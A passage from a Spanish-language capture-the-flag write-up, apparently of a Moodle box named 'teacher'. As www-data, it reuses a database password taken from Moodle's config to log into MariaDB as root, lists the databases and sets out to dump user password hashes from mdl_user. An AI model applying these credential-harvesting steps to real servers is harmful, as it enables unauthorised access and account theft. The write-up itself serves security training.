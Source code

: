 ```php
  'dbport' => 3306,                                                                                                                                                                          
  'dbsocket' => '',                                                                                                                                                                          
  'dbcollation' => 'utf8mb4_unicode_ci',                                                                                                                                                     
);                           
```

Podemos ver la clave para conectarnos a mysql, vamos a ello.

```SQL
www-data@teacher:/var/www/moodledata/localcache$ mysql -u root -p                                                                                                                            
Enter password:                                                                                                                                                                              
Welcome to the MariaDB monitor.  Commands end with ; or \g.                                                                                                                                  
Your MariaDB connection id is 965                                                                                                                                                            
Server version: 10.1.26-MariaDB-0+deb9u1 Debian 9.1                                                                                                                                          
                                                                                                                                                                                             
Copyright (c) 2000, 2017, Oracle, MariaDB Corporation Ab and others.                                                                                                                         
                                                                                                                                                                                             
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.                                                                                                               
                                                                                                                                                                                             
MariaDB [(none)]> show databases;                                                                                                                                                            
+--------------------+                                                                                                                                                                       
| Database           |                                                                                                                                                                       
+--------------------+                                                                                                                                                                       
| information_schema |                                                                                                                                                                       
| moodle             |                                                                                                                                                                       
| mysql              |                                                                                                                                                                       
| performance_schema |
| phpmyadmin         |
+--------------------+
5 rows in set (0.01 sec)

MariaDB [(none)]> use moodle 
```

Vamos a usar la base de datos moodle y vamos a sacar los usuarios y contraseñas (hasheadas) de la tabla mdl_user.
